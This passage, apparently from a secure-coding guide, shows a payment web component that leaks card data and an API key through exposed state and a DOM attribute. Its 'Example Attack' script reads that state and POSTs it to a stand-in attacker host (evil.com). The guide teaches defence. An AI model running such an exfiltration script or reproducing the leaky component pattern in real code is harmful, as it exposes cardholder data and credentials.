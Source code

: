 ```typescript
      cvv: this.cvv,
      apiKey: this.apiKey,
      userData: this.internalUserData
    };
  }
  
  render() {
    return (
      <div>
        <input 
          value={this.creditCardNumber}
          onInput={(e) => this.creditCardNumber = e.target.value}
        />
        {/* VULNERABLE - Sensitive data in DOM attributes */}
        <div data-api-key={this.apiKey}>Payment processing...</div>
      </div>
    );
  }
}
```

**Example Attack:**
```javascript
// In browser console - accessing component state
const paymentComponent = document.querySelector('payment-form');

// Direct state access (if exposed)
console.log(paymentComponent.creditCardNumber);
console.log(paymentComponent.apiKey);

// Method invocation
paymentComponent.debugInfo().then(data => {
  console.log('Stolen data:', data);
  // Send to attacker's server
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});

// Component inspection via dev tools
console.log('%c Component State Inspector', 'color: red; font-size: 20px');
Object.getOwnPropertyNames(paymentComponent).forEach(prop => {
  console.log(prop, ':', paymentComponent[prop]);
});
```

**Real-world Impact:**
- Credit card and payment information theft
- Personal Identifiable Information (PII) exposure
- API key and authentication token theft
- Business logic and internal data structure exposure
